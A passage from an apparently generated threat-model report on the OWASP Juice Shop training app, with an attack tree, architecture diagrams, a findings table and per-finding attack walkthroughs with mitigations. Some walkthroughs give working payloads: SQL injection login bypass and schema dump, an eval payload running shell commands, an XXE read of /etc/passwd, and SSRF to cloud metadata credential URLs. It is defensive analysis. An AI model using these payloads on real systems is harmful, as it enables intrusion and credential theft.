<tr><td style="overflow-wrap:anywhere"><strong>Container &amp; Supply-Chain Hardening</strong></td><td style="overflow-wrap:anywhere"><em>Build-time and runtime hardening - minimal base image, non-root execution, dependency inventory.</em><br/>Container Hardening</td><td>✅ Adequate</td><td style="overflow-wrap:anywhere">-</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>


**Bottom line:** These controls narrow specific attack surfaces but none eliminates a Critical finding on its own.

---

<a id="critical-attack-chain"></a><a id="critical-attack-tree"></a>
## Critical Attack Tree

The root is the worst-case attacker goal; below it, each capability branch groups the Critical findings that achieve it. Branches feed the goal by OR - any single path suffices.


```mermaid
graph LR
    G_ROOT["Full server and admin takeover"]:::goal
    OR_PATHS["Any attack path succeeds"]:::or_node
    AND_JWT["Forge admin JWT offline"]:::and_node
    L_T001["F-001 - JWT algorithm confusion"]:::leaf
    L_T007["F-007 - Hardcoded RSA private key"]:::leaf
    OR_RCE["Remote code execution"]:::or_node
    L_T010["F-010 - Server-side template injection"]:::leaf
    L_T013["F-013 - Sandbox escape in B2B order"]:::leaf
    OR_SQLI["SQL injection auth bypass"]:::or_node
    L_T008["F-008 - SQL injection authentication by…"]:::leaf
    L_T009["F-009 - SQL injection product search"]:::leaf
    OR_PRIV["Privilege escalation to admin"]:::or_node
    L_T002["F-002 - Systemic IDOR missing ownership"]:::leaf
    L_T006["F-006 - Sensitive REST route without au…"]:::leaf
    OR_FILES["Sensitive file and server access"]:::or_node
    L_T011["F-011 - XML external entity injection"]:::leaf
    L_T012["F-012 - Server-side request forgery"]:::leaf
    L_T014["F-014 - Zip slip path traversal"]:::leaf

    OR_PATHS -->|"OR"| G_ROOT
    AND_JWT -->|"OR"| OR_PATHS
    L_T001 -->|"AND"| AND_JWT
    L_T007 -->|"AND"| AND_JWT
    OR_RCE -->|"OR"| OR_PATHS
    L_T010 -->|"OR"| OR_RCE
    L_T013 -->|"OR"| OR_RCE
    OR_SQLI -->|"OR"| OR_PATHS
    L_T008 -->|"OR"| OR_SQLI
    L_T009 -->|"OR"| OR_SQLI
    OR_PRIV -->|"OR"| OR_PATHS
    L_T002 -->|"OR"| OR_PRIV
    L_T006 -->|"OR"| OR_PRIV
    OR_FILES -->|"OR"| OR_PATHS
    L_T011 -->|"OR"| OR_FILES
    L_T012 -->|"OR"| OR_FILES
    L_T014 -->|"OR"| OR_FILES

    classDef goal fill:#0f172a,stroke:#000,color:#fff,stroke-width:3px
    classDef and_node fill:#334155,stroke:#1e293b,color:#fff,stroke-width:2px
    classDef or_node fill:#64748b,stroke:#334155,color:#fff,stroke-width:2px
    classDef leaf fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
```

**Findings** (full detail in [§8 Findings Register](#8-findings-register)): 🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191` JWT algorithm confusion · 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access — `lib/insecurity.ts:23` Hardcoded RSA private key · 🔴 [F-010](#f-010) — Server-Side Template Injection — `routes/userProfile.ts:62` Server-side template injection · 🔴 [F-013](#f-013) — Sandbox Escape — `routes/b2bOrder.ts:23` Sandbox escape in B2B order · 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass — `routes/login.ts:34` SQL injection authentication bypass · 🔴 [F-009](#f-009) — SQL Injection — `routes/search.ts:23` SQL injection product search · 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15` Systemic IDOR missing ownership · 🟠 [F-006](#f-006) — Sensitive REST Route Without Auth Middleware — `server.ts:310` Sensitive REST route without auth · 🔴 [F-011](#f-011) — XML External Entity Injection — `routes/fileUpload.ts:83` XML external entity injection · 🔴 [F-012](#f-012) — Server-Side Request Forgery — `routes/profileImageUrlUpload.ts:24` Server-side request forgery · 🔴 [F-014](#f-014) — Zip Slip Path Traversal — `routes/fileUpload.ts:44` Zip slip path traversal

---

## 1. System Overview

Probably the most modern and sophisticated insecure web application

**Repository:** https://github.com/juice-shop/juice-shop
**Runtime:** Node\.js 20 - 24

### Scope

This threat model covers 5 components of juice-shop: **Angular SPA**, **Express Backend**, **File Upload Service**, **B2B REST API**, **Data Layer**.

All 5 modeled components received full STRIDE threat analysis.

**Out of scope:** third-party hosted dependencies, browser runtime, operating-system kernel, and the underlying network infrastructure.

---

## 2. Architecture Diagrams

### 2.1 System Context

Who interacts with juice-shop from the outside, and through which channels. Solid arrows show normal usage; dashed red arrows mark unauthenticated probing or exploit paths (C4 Level 1).


```mermaid
flowchart LR
    USER["End User<br/>(browser)"]
    ATTACKER["Anonymous<br/>Internet Attacker"]
    ADMIN["Admin User"]
    SYSTEM["juice-shop"]
    EXTERNAL["External HTTP Services<br/>(SSRF target)"]
    USER -->|HTTPS · normal usage| SYSTEM
    ATTACKER -.->|HTTPS · probing / exploit| SYSTEM
    ADMIN -->|HTTPS · admin actions| SYSTEM
    SYSTEM -->|outbound · HTTPS| EXTERNAL
    classDef user     fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    classDef attacker fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef admin    fill:#fef3c7,stroke:#b45309,color:#78350f,stroke-width:1.5px
    classDef sys      fill:#f2f2f2,stroke:#424242,color:#111,stroke-width:1.5px
    classDef ext      fill:#f2f2f2,stroke:#9e9e9e,color:#424242,stroke-dasharray:3 3,stroke-width:1px
    class USER user
    class ATTACKER attacker
    class ADMIN admin
    class SYSTEM sys
    class EXTERNAL ext
```

**Key takeaway:** Every actor in the context interacts with juice-shop through its external interface, so authentication and input validation at that edge govern the entire attack surface.

### 2.2 Container Architecture

How the system decomposes into deployable units. Each box is a separate runtime process or service container; arrows show synchronous request paths between them. Components with ≥3 Critical findings carry a red border, ≥2 High amber (C4 Level 2).


```mermaid
flowchart TB
    subgraph Client
        angular_spa["Angular SPA"]
    end
    subgraph Application
        express_backend["Express Backend"]
        file_upload_service["File Upload Service"]
        b2b_api["B2B REST API"]
    end
    subgraph Data
        data_layer[("Data Layer")]
    end
    angular_spa -->|HTTPS REST| express_backend
    express_backend -->|driver| data_layer
    express_backend -->|in-process| file_upload_service
    express_backend -->|in-process| b2b_api
    classDef critical fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:3px
    classDef warning  fill:#fef3c7,stroke:#b45309,color:#78350f,stroke-width:2px
    class express_backend critical
    class file_upload_service critical
    class angular_spa warning
    class data_layer warning
```

**Key takeaway:** The system decomposes into 1 client, 3 application and 1 data unit(s); Express Backend carries the most Critical findings (5) and bounds the worst-case blast radius.

### 2.3 Components


Who reaches each component, and through which trust zone. Four columns map external actors to the internal tiers (Client / Application / Data); solid green arrows show legitimate data flow, dashed red arrows mark intrusion vectors. The component table directly below holds source paths and linked threats per `C-NN`; per-finding evidence is in [§8 Findings Register](#8-findings-register).


```mermaid
flowchart TD
    subgraph EXT["Untrusted Zone - Internet"]
        INTERNET_ANON["fa:fa-user-secret Anonymous Internet Attacker"]:::threat
        VICTIM_REQUIRED["fa:fa-user Shop User"]:::legit
    end
    subgraph CLIENT["Client Tier"]
        angular_spa["fa:fa-window-restore angular-spa Angular SPA<br/><i>10 threats</i>"]:::risk
    end
    subgraph APP["Application Tier"]
        express_backend["fa:fa-server express-backend Express Backend<br/>+ file-upload-service + b2b-api<br/><i>26 threats</i>"]:::risk
    end
    subgraph DATA["Data Tier"]
        data_layer[("fa:fa-database data-layer Data Layer<br/><i>2 threats</i>")]:::risk
    end
    VICTIM_REQUIRED -->|"HTTPS · TLS"| angular_spa
    angular_spa -->|"REST · JWT Bearer"| express_backend
    express_backend -->|"ORM · queries"| data_layer
    INTERNET_ANON -.->|"injection · auth bypass · RCE"| express_backend
    INTERNET_ANON -.->|"XSS · client tampering · token theft"| angular_spa

    classDef legit fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    classDef threat fill:#f3dada,stroke:#b71c1c,color:#7f0000,stroke-width:2px
    classDef external fill:#f2f2f2,stroke:#424242,color:#212121,stroke-width:1.5px
    classDef risk fill:#fef2f2,stroke:#991b1b,color:#111,stroke-width:2.5px
    linkStyle 0,1,2 stroke:#2e7d32,stroke-width:1.5px
    linkStyle 3,4 stroke:#b71c1c,stroke-width:2.5px,stroke-dasharray:6 4
```

**Key takeaway:** Express Backend concentrates the most findings (26 of 47 across all components); the table below maps each component to its source paths and linked threats.

| ID | Name | Type | Key Paths | Linked Threats |
|----|-------------------|-----------|--------------------------------|------------------------------------------------|
| <a id="c-01"></a><a id="angular-spa"></a><span style="white-space:nowrap">C-01</span> | Angular SPA | client | `frontend/src/**`<br/>`frontend/*.json`<br/>`frontend/*.ts` | 🟠 [F-004](#f-004) — SPA Without Backend-for-Frontend Token Storage (`login.component.ts:101`)<br/>🟠 [F-015](#f-015) — OAuth Implicit Flow with Derived Predictable Password (`oauth.component.ts:30`)<br/>🔴 [F-017](#f-017) — Stored Cross-Site Scripting (`about.component.ts:119`)<br/>🔴 [F-018](#f-018) — Stored XSS (`last-login-ip.component.ts:39`)<br/>🔴 [F-019](#f-019) — Stored Cross-Site Scripting (`search-result.component.ts:132`)<br/>🔴 [F-020](#f-020) — Reflected Cross-Site Scripting (`search-result.component.ts:170`)<br/>🔴 [F-022](#f-022) — DOM-Write of Raw User Data Export (`data-export.component.ts:71`)<br/>🟠 [F-036](#f-036) — Client-Side-Only Admin and Accounting Route Guards (`app.guard.ts:52`)<br/>🟠 [F-037](#f-037) — Unauthenticated Order Tracking IDOR (`track-result.component.ts:45`)<br/>🟡 [F-040](#f-040) — Unauthenticated Socket\.IO Connection from SPA (`socket-io.service.ts:21`) |
| <a id="c-02"></a><a id="express-backend"></a><span style="white-space:nowrap">C-02</span> | Express Backend | application | `server.ts`<br/>`app.ts`<br/>`routes/**`<br/>`lib/**`<br/>`models/**` | 🔴 [F-001](#f-001) — JWT Algorithm Confusion (`lib/insecurity.ts:191`)<br/>🟠 [F-003](#f-003) — Missing Security Audit Logging (`routes/updateProductReviews.ts:17`)<br/>🟠 [F-005](#f-005) — GitHub Actions Workflow Missing Permissions Block (`ci.yml:1`)<br/>🟠 [F-006](#f-006) — Sensitive REST Route Without Auth Middleware (`server.ts:310`)<br/>🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access (`lib/insecurity.ts:23`)<br/>🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-009](#f-009) — SQL Injection (`routes/search.ts:23`)<br/>🔴 [F-010](#f-010) — Server-Side Template Injection (`routes/userProfile.ts:62`)<br/>🔴 [F-016](#f-016) — JWT decode used without signature verification (`lib/insecurity.ts:58`)<br/>🔴 [F-021](#f-021) — NoSQL Mass-Update Injection (`routes/trackOrder.ts:18`)<br/>🟠 [F-023](#f-023) — Uses --unsafe-perm npm install flag — Dockerfile:5<br/>🟠 [F-024](#f-024) — Third-party GitHub Action not pinned to commit SHA (`ci.yml:161`)<br/>🟠 [F-025](#f-025) — Docker base image not digest-pinned — Dockerfile:1<br/>🟠 [F-026](#f-026) — Docker base image not digest-pinned — Dockerfile:23<br/>🟠 [F-027](#f-027) — On absent from repository (`package-lock.json:1`)<br/>🟠 [F-028](#f-028) — Sensitive Files Publicly Browsable (`server.ts:277`)<br/>🟠 [F-030](#f-030) — Access Log Public Exposure (`server.ts:281`)<br/>🟠 [F-032](#f-032) — Event-Loop Blocking (`routes/trackOrder.ts:18`)<br/>🟠 [F-033](#f-033) — Missing Rate Limiting on Login Endpoint (`server.ts:343`)<br/>🟠 [F-038](#f-038) — Missing Ownership Check Allows Horizontal Privilege Escalation in Review Update (`routes/updateProductReviews.ts:16`)<br/>🟡 [F-042](#f-042) — Container images not signed no cosign or build-provenance attestation — :1<br/>🟡 [F-043](#f-043) — Npm install does not use --ignore-scripts — Dockerfile:5<br/>🟡 [F-044](#f-044) — On postinstall hook present and not audited (`package.json:88`)<br/>🟡 [F-045](#f-045) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)<br/>🟢 [F-046](#f-046) — Missing HEALTHCHECK instruction — Dockerfile:1<br/>🟢 [F-047](#f-047) — Renovate config absent automated dependency updates not file-detectable (`renovate.json:1`) |
| <a id="c-03"></a><a id="file-upload-service"></a><span style="white-space:nowrap">C-03</span> | File Upload Service | application | `routes/fileUpload.ts`<br/>`routes/profileImageFileUpload.ts`<br/>`routes/profileImageUrlUpload.ts`<br/>`routes/memory.ts` | 🔴 [F-011](#f-011) — XML External Entity Injection (`routes/fileUpload.ts:83`)<br/>🔴 [F-012](#f-012) — Server-Side Request Forgery (`routes/profileImageUrlUpload.ts:24`)<br/>🔴 [F-014](#f-014) — Zip Slip Path Traversal (`routes/fileUpload.ts:44`)<br/>🟠 [F-034](#f-034) — YAML Bomb Parser Amplification (`routes/fileUpload.ts:117`)<br/>🟠 [F-035](#f-035) — XML Billion-Laughs Entity Expansion DoS (`routes/fileUpload.ts:83`)<br/>🟠 [F-039](#f-039) — Stored XSS (`routes/profileImageUrlUpload.ts:28`) |
| <a id="c-04"></a><a id="b2b-api"></a><span style="white-space:nowrap">C-04</span> | B2B REST API | application | `routes/b2bOrder.ts` | 🔴 [F-013](#f-013) — Sandbox Escape (`routes/b2bOrder.ts:23`)<br/>🟠 [F-031](#f-031) — Event-Loop Saturation (`routes/b2bOrder.ts:23`)<br/>🟡 [F-041](#f-041) — Raw Internal Error Messages Leaked to Caller (`routes/b2bOrder.ts:33`) |
| <a id="c-05"></a><a id="data-layer"></a><span style="white-space:nowrap">C-05</span> | Data Layer | data | `models/**`<br/>`data/**`<br/>`encryptionkeys/**`<br/>`ftp/**`<br/>`uploads/**` | 🟠 [F-029](#f-029) — Weak Password Hashing (`models/user.ts:77`)<br/>🟠 [F-048](#f-048) — Data disclosure (`challenges.yml:1381`) |
### 2.4 Technology Architecture

The technology stack the system is built on. Each box names the framework or runtime that fills that role; per-component findings live in the [§2.3](#23-components) component table above, and the full per-finding catalogue is in [§8 Findings Register](#8-findings-register).


```mermaid
flowchart TD
    subgraph CLIENT["Client Tier"]
        FE_ANGULAR["fa:fa-window-restore Angular SPA<br/><i>browser runtime</i>"]:::risk
    end
    subgraph APP["Application Tier"]
        RUNTIME["fa:fa-server Node.js<br/><i>JS runtime</i>"]:::risk
        EXPRESS["fa:fa-server Express<br/><i>HTTP framework</i>"]:::risk
    end
    subgraph DATA["Data Tier"]
        ORM["fa:fa-database Sequelize ORM<br/><i>object-relational mapper</i>"]:::risk
        SQLITE[("fa:fa-database SQLite<br/><i>embedded relational DB</i>")]:::risk
        MARSDB[("fa:fa-database MarsDB<br/><i>in-memory NoSQL</i>")]:::risk
        LOCAL_FS["fa:fa-folder-open Local FS<br/><i>uploads · logs · keys</i>"]:::risk
    end
    subgraph INFRA["Cross-Cutting"]
        INFRA_SCM["fa:fa-code-branch GitHub (public)<br/><i>source supply chain</i>"]:::risk
    end
    FE_ANGULAR -->|"HTTPS · JWT"| RUNTIME
    EXPRESS -->|"DB driver"| ORM
    EXPRESS -->|"DB driver"| SQLITE
    EXPRESS -->|"DB driver"| MARSDB
    EXPRESS -->|"file I/O"| LOCAL_FS
    INFRA_SCM -.->|"clone · extract secrets"| EXPRESS

    classDef risk fill:#fef2f2,stroke:#991b1b,color:#111,stroke-width:2.5px
    classDef ok fill:#e8f1ea,stroke:#2e7d32,color:#1b5e20,stroke-width:1.5px
    linkStyle 0,1,2,3,4 stroke:#424242,stroke-width:1.5px
    linkStyle 5 stroke:#9e9e9e,stroke-width:1px,stroke-dasharray:3 3
```

**Key takeaway:** The stack spans 1 data-tier store(s) behind the application tier; injection and data-at-rest exposure track the data tier, detailed per finding in [§8 Findings Register](#8-findings-register).

> **Legend:** **red border** ≥ 3 Critical threats on the component · **amber border** ≥ 2 High threats

---

## 3. Attack Walkthroughs

This section walks through how the highest-risk findings are exploited - one short walkthrough per Critical, each with attack steps, a focused sequence diagram, and the primary mitigation. The cross-finding view (which weaknesses combine toward the worst-case goal, and where one fix severs several paths) is in the [Critical Attack Tree](#critical-attack-tree). Full per-finding context - severity rationale, assets, detection signals - is in the [§8 Findings Register](#8-findings-register) row for each finding.

### 3.1 JWT Algorithm Confusion — lib/insecurity.ts:191

**Source:** 🔴 [F-001](#f-001) — `lib/insecurity.ts:191`

Severity **Critical** ([CWE-347](https://cwe.mitre.org/data/definitions/347.html)). STRIDE: Spoofing. See [§8 F-001](#f-001) for the full register row.

**Attack Steps**

1. Without an explicit algorithm allowlist, attackers can forge tokens with `alg:none` (older lib versions) or use the public key as an HMAC secret to mint valid signatures.
2. Send the crafted payload to the endpoint backed by `lib/insecurity.ts:191`.
3. The vulnerable code path accepts the payload without enforcing the missing control.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: express-backend - lib/insecurity.ts:191
    Attacker->>App: Crafted request exercising the weakness at lib/insecurity.ts line 191
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-347
    alt Current state — F-001
        Attacker->>App: Crafted request exploiting F-001 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-001 — Enforce JWT signature and algorithm verification
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-001](#m-001) (Enforce JWT signature and algorithm verification) lands, 🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191` is exploitable at `lib/insecurity.ts:191` (Critical-severity, [CWE-347](https://cwe.mitre.org/data/definitions/347.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-001](#m-001) (Enforce JWT signature and algorithm verification)

### 3.2 Systemic IDOR Missing Ownership Filter — routes/memory.ts:15

**Source:** 🔴 [F-002](#f-002) — `routes/memory.ts:15`

Severity **Critical** ([CWE-639](https://cwe.mitre.org/data/definitions/639.html)). STRIDE: Tampering. See [§8 F-002](#f-002) for the full register row.

**Attack Steps**

1. Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data.
2. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.
3. Send the crafted payload to the endpoint backed by `routes/memory.ts:15`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: backend-api - routes/memory.ts:15
    Attacker->>App: Crafted request exercising the weakness at routes/memory.ts line 15
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-639
    alt Current state — F-002
        Attacker->>App: Crafted request exploiting F-002 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-002 — Enforce object-level (ownership) authorization
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-002](#m-002) (Enforce object-level (ownership) authorization) lands, 🔴 [F-002](#f-002) — Systemic IDOR Missing Ownership Filter — `routes/memory.ts:15` is exploitable at `routes/memory.ts:15` (Critical-severity, [CWE-639](https://cwe.mitre.org/data/definitions/639.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-002](#m-002) (Enforce object-level (ownership) authorization)

### 3.3 Hardcoded RSA Private Key Enables Offline JWT Forgery for /…

**Source:** 🔴 [F-007](#f-007) — `lib/insecurity.ts:23`

Severity **Critical** ([CWE-321](https://cwe.mitre.org/data/definitions/321.html)). STRIDE: Spoofing. See [§8 F-007](#f-007) for the full register row.

**Attack Steps**

1. The RSA private key used to sign all application JWTs is hardcoded in plain text in `lib/insecurity.ts` line 23, in a public open-source repository.
2. Any person who reads the source code can extract this key and sign a JWT token offline with any user identity and role claims they choose.
3. The forged token passes the expressJwt({ secret: publicKey }) check at `insecurity.ts:54` and `server.ts:423` because `RS256` verification only requires the matching public key.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant Repo
    participant App
    Note over Repo: Public repository
    Note over App: express-backend - lib/insecurity.ts:23
    Attacker->>Repo: Clone or browse - extract private key from lib/insecurity.ts line 23
    Attacker->>Attacker: Sign forged token / signature with the extracted key
    Attacker->>App: Submit forged artefact in normal authentication flow
    App-->>Attacker: Request accepted as authentic - signature validates
    alt Current state — F-007
        Attacker->>Repo: Crafted request exploiting F-007 succeeds
        Repo-->>Attacker: Exploitation confirmed
    else After M-007 — Move cryptographic keys to a managed secret store
        Attacker->>Repo: Same request after the fix is applied
        Repo-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-007](#m-007) (Move cryptographic keys to a managed secret store) lands, 🔴 [F-007](#f-007) — Hardcoded RSA Private Key Enables Offline JWT Forgery for `/b2b/v2` Access — `lib/insecurity.ts:23` is exploitable at `lib/insecurity.ts:23` (Critical-severity, [CWE-321](https://cwe.mitre.org/data/definitions/321.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-007](#m-007) (Move cryptographic keys to a managed secret store)

### 3.4 SQL Injection Authentication Bypass — routes/login.ts:34

**Source:** 🔴 [F-008](#f-008) — `routes/login.ts:34`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Spoofing. See [§8 F-008](#f-008) for the full register row.

**Attack Steps**

1. An unauthenticated attacker POSTs `email=' OR '1'='1` to `/rest/user/login`.
2. The `req.body.email` value flows unescaped into `models.sequelize.query()` at `routes/login.ts:34`: `SELECT * FROM Users WHERE email = '${req.body.email}' AND password = '…'`.
3. The injected OR clause makes the WHERE condition always true, causing SQLite to return the first row - the seeded admin account.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant DB
    Note over API: express-backend - routes/login.ts:34
    Note over DB: Database
    Attacker->>API: Crafted HTTP request to the affected endpoint with classical OR 1=1 payload
    API->>DB: SQL built by string interpolation - payload becomes query
    DB-->>API: First matching row regardless of intended predicate
    API-->>Attacker: 200 OK with authenticated session / leaked rows
    alt Current state — F-008
        Attacker->>API: Crafted request exploiting F-008 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-008 — Use parameterized database queries
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-008](#m-008) (Use parameterized database queries) lands, 🔴 [F-008](#f-008) — SQL Injection Authentication Bypass — `routes/login.ts:34` is exploitable at `routes/login.ts:34` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-008](#m-008) (Use parameterized database queries)

### 3.5 SQL Injection — routes/search.ts:23

**Source:** 🔴 [F-009](#f-009) — `routes/search.ts:23`

Severity **Critical** ([CWE-89](https://cwe.mitre.org/data/definitions/89.html)). STRIDE: Tampering. See [§8 F-009](#f-009) for the full register row.

**Attack Steps**

1. An attacker submits `GET /rest/products/search?q=')) UNION SELECT sql,2,3,4,5,6,7,8,9 FROM sqlite_master--`.
2. The `criteria` variable (derived from `req.query.q`, truncated at 200 chars) flows into `models.sequelize.query()` at `routes/search.ts:23`: `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' …`.
3. The UNION extends the result set with the `sqlite_master` schema, exposing every table definition.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant DB
    Note over API: express-backend - routes/search.ts:23
    Note over DB: Database
    Attacker->>API: GET /rest/products/search with classical OR 1=1 payload
    API->>DB: SQL built by string interpolation - payload becomes query
    DB-->>API: First matching row regardless of intended predicate
    API-->>Attacker: 200 OK with authenticated session / leaked rows
    alt Current state — F-009
        Attacker->>API: Crafted request exploiting F-009 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-009 — Use parameterized database queries
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-009](#m-009) (Use parameterized database queries) lands, 🔴 [F-009](#f-009) — SQL Injection — `routes/search.ts:23` is exploitable at `routes/search.ts:23` (Critical-severity, [CWE-89](https://cwe.mitre.org/data/definitions/89.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-009](#m-009) (Use parameterized database queries)

### 3.6 Server-Side Template Injection — routes/userProfile.ts:62

**Source:** 🔴 [F-010](#f-010) — `routes/userProfile.ts:62`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Tampering. See [§8 F-010](#f-010) for the full register row.

**Attack Steps**

1. `routes/userProfile.ts:55-62` checks if the stored username matches the pattern /#{(.*)}/ and if so extracts the content between `#{` and `}` and passes it to Node\.js `eval()`.
2. An authenticated attacker who sets their username to `#{process.mainModule.require('child_process').execSync('id').toString()}` will trigger RCE when any request is made to GET `/profile`.
3. The output of the command replaces the username in the rendered page.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant API
    participant Sandbox
    Note over API: express-backend - routes/userProfile.ts:62
    Note over Sandbox: Eval / VM context
    Attacker->>API: GET /profile. with JS payload escaping the sandbox
    API->>Sandbox: Pass attacker-controlled code to eval / vm.runInContext
    Sandbox->>Sandbox: Prototype-walk reaches the host realm - RCE
    API-->>Attacker: Command output / arbitrary side effects
    alt Current state — F-010
        Attacker->>API: Crafted request exploiting F-010 succeeds
        API-->>Attacker: Exploitation confirmed
    else After M-010 — Remove server-side evaluation of untrusted input
        Attacker->>API: Same request after the fix is applied
        API-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-010](#m-010) (Remove server-side evaluation of untrusted input) lands, 🔴 [F-010](#f-010) — Server-Side Template Injection — `routes/userProfile.ts:62` is exploitable at `routes/userProfile.ts:62` (Critical-severity, [CWE-94](https://cwe.mitre.org/data/definitions/94.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-010](#m-010) (Remove server-side evaluation of untrusted input)

### 3.7 XML External Entity Injection — routes/fileUpload.ts:83

**Source:** 🔴 [F-011](#f-011) — `routes/fileUpload.ts:83`

Severity **Critical** ([CWE-611](https://cwe.mitre.org/data/definitions/611.html)). STRIDE: Information Disclosure. See [§8 F-011](#f-011) for the full register row.

**Attack Steps**

1. An attacker uploads an XML file containing an external entity declaration such as `<!ENTITY xxe SYSTEM "file:///etc/passwd">`.
2. The libxmljs2 parser is invoked with `noent: true` on line 83, which resolves the external entity and includes the file content in the parsed XML document.
3. The serialized XML string is then concatenated into the error response message on line 87 and truncated to 400 characters: `next(new Error('… ' + utils.trunc(xmlString, 400) + …))`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/fileUpload.ts:83
    Attacker->>App: Crafted request exercising the weakness at routes/fileUpload.ts line 83
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-611
    alt Current state — F-011
        Attacker->>App: Crafted request exploiting F-011 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-011 — Disable XML external entity (XXE) resolution
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-011](#m-011) (Disable XML external entity (XXE) resolution) lands, 🔴 [F-011](#f-011) — XML External Entity Injection — `routes/fileUpload.ts:83` is exploitable at `routes/fileUpload.ts:83` (Critical-severity, [CWE-611](https://cwe.mitre.org/data/definitions/611.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-011](#m-011) (Disable XML external entity (XXE) resolution)
- Defence in depth: ❸ [M-052](#m-052) (Disable XML external entity (XXE) resolution)

### 3.8 Server-Side Request Forgery — routes/profileImageUrlUpload.…

**Source:** 🔴 [F-012](#f-012) — `routes/profileImageUrlUpload.ts:24`

Severity **Critical** ([CWE-918](https://cwe.mitre.org/data/definitions/918.html)). STRIDE: Information Disclosure. See [§8 F-012](#f-012) for the full register row.

**Attack Steps**

1. An authenticated user supplies an arbitrary URL in `req.body.imageUrl`.
2. The application calls `fetch(url)` on line 24 with no scheme validation, host allowlist, or redirect restriction.
3. Inside a Docker container on AWS/GCP/Azure, the attacker sets `imageUrl` to `http://169.254.169.254/latest/meta-data/iam/security-credentials/` (IMDSv1) or `http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token`.

**Sequence Diagram**


```mermaid
sequenceDiagram
    autonumber
    actor Attacker
    participant App
    Note over App: file-upload-service - routes/profileImageUrlUpload.ts:24
    Attacker->>App: Crafted request exercising the weakness at routes/profileImageUrlUpload.ts line 24
    App->>App: Vulnerable branch executes without the missing control
    App-->>Attacker: Response confirms the weakness - CWE-918
    alt Current state — F-012
        Attacker->>App: Crafted request exploiting F-012 succeeds
        App-->>Attacker: Exploitation confirmed
    else After M-012 — Validate and allowlist outbound request targets
        Attacker->>App: Same request after the fix is applied
        App-->>Attacker: Request rejected
    end
```

**Key takeaway:** Until ❶ [M-012](#m-012) (Validate and allowlist outbound request targets) lands, 🔴 [F-012](#f-012) — Server-Side Request Forgery — `routes/profileImageUrlUpload.ts:24` is exploitable at `routes/profileImageUrlUpload.ts:24` (Critical-severity, [CWE-918](https://cwe.mitre.org/data/definitions/918.html)).

**Defense in Depth**

- Primary mitigation: ❶ [M-012](#m-012) (Validate and allowlist outbound request targets)
- Defence in depth: ❸ [M-053](#m-053) (Validate and allowlist outbound request targets)

### 3.9 Sandbox Escape — routes/b2bOrder.ts:23

**Source:** 🔴 [F-013](#f-013) — `routes/b2bOrder.ts:23`

Severity **Critical** ([CWE-94](https://cwe.mitre.org/data/definitions/94.html)). STRIDE: Elevation of Privilege. See [§8 F-013](#f-013) for the full register row.

**Attack Steps**

